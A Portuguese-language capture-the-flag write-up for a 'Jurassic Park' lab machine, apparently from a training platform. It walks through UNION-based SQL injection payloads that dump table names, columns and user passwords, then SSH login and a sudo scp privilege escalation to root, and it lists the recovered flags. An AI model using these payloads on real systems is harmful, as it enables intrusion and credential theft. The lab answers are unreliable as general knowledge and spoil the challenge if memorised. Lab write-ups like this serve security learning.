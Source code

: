 # Jurassic Park

## What is the name of the SQL database serving the shop information?

- Após enumerar, temos um SSH e um HTTP rodando.
- Vamos ver o HTTP.
- Na aba de compras, após escolher um item, vamos ver se existe alguma falha de SQL Injection (SQLI) no campo 'id' do site.
    - [http://10.10.55.202/item.php?id=2](http://10.10.55.202/item.php?id=2)
- Vamos colocar `‘`.
- Então, perceba que ele sabe disso.
- Então, vamos ver com `“`.
- E lá está um SQLI.

---

- Agora vamos buscar o nome da tabela
    - [http://10.10.55.202/item.php?id=2 union select 1](http://10.10.55.202/item.php?id=2%20union%20select%201)
- Para simplificar, irei escrever somente após o sinal de `=` do parâmetro `id`
    
    ```sql
    2 union select 1
    ```
    
- Perceba que o número não coincide, então vamos adicionar valores até que o erro não seja mais exibido
    
    ```sql
    2 union select 1,2,3,4,5
    ```
    
- 5
- Então, vamos colocar valores nulos para não atrapalhar
    
    ```sql
    2 union select null,null,null,null,null
    ```
    
- Então, no lugar do último "null", vamos trocar e colocar `database()`
    
    ```sql
    2 union select null,null,null,null, database()
    ```
    
- Foi retornado `park`
- `park`

---

- How many columns does the table have?
    - Agora vamos pegar o nome das tabelas
        
        ```sql
        2 union select null,null,null,null, group_concat(table_name) FROM information_schema.tables WHERE table_schema = "park"
        ```
        
        - `GROUP_CONCAT()` que é usada em SQL para concatenar os valores de uma coluna em um grupo de linhas, concatenando os valores da coluna dos nomes da tabela (`table_name`)
        - `information_schema.tables`, você pode obter informações como os nomes das tabelas e outros
        - Com isso temos **`items` e `users`**
    - Vamos ver primeiro o de items
        
        ```sql
        2 union select null,null,null,null, group_concat(column_name) FROM information_schema.columns WHERE table_name = "**items"**
        ```
        
        - Temos **`id`,`package`,`price`,`information` e `sold`**
    - `5`

---

- What is the system version?
    
    ```sql
    2 union select null,null,null,null, version()
    ```
    

---

- What is Dennis' password?
    - Agora vamos ver os valores de cada um
        
        ```sql
        2 union select null,null,null,null, group_concat(**id**,":", **package**,":",price ,":",information,":", sold SEPARATOR "<br>") FROM **items**
        ```
        
    - Com isso temos dois users
        - Dennis
        - Children
    - Agora para o `users`
        
        ```sql
        2 union select null,null,null,null, group_concat(column_name) FROM information_schema.columns WHERE table_name = "users**"**
        ```
        
        - **`id`,`username`,`password`,`USER`,`CURRENT_CONNECTIONS` e `TOTAL_CONNECTIONS`**
    - Se tentarmos pegar tudo vai ter um erro, e explorando mais, o erro esta na palavra `username`
    - Vamos para `password`
        
        ```sql
        2 union select null,null,null,null, group_concat(password) FROM users
        ```
        
        - **`D0nt3ATM3` e `ih8dinos`**
    - **`ih8dinos`**

---

- What are the contents of the first flag?
    
    ```bash
    ssh dennis@10.10.55.202
    #**ih8dinos
    sudo -l**
    ```
    
    - [https://gtfobins.github.io/gtfobins/scp/#sudo](https://gtfobins.github.io/gtfobins/scp/#sudo)
        
        ```bash
        TF=$(mktemp)
        echo 'sh 0<&2 1>&2' > $TF
        chmod +x "$TF"
        sudo scp -S $TF x y:
        su root
        ```
        
    - Buscando a flag
        
        ```bash
        find / -name "flag*.txt"
        cat /home/dennis/flag1.txt
        #b89f2d69c56b9981ac92dd267f
        ```
        
    - `b89f2d69c56b9981ac92dd267f`

---

- What are the contents of the second flag?
    
    ```bash
    cat /boot/grub/fonts/flagTwo.txt
    #96ccd6b429be8c9a4b501c7a0b117b0a
    ```
    
    - `96ccd6b429be8c9a4b501c7a0b117b0a`

---

- What are the contents of the third flag?
    
    ```bash
    cat .bash_history
    #Flag3:b4973bbc9053807856ec815db25fb3f1
    ```
    
    - `b4973bbc9053807856ec815db25fb3f1`

---

- What are the contents of the fifth flag?
    
    ```bash
    cat /root/flag5.txt
    #2a7074e491fcacc7eeba97808dc5e2ec
    ```
    
    - `2a7074e491fcacc7eeba97808dc5e2ec`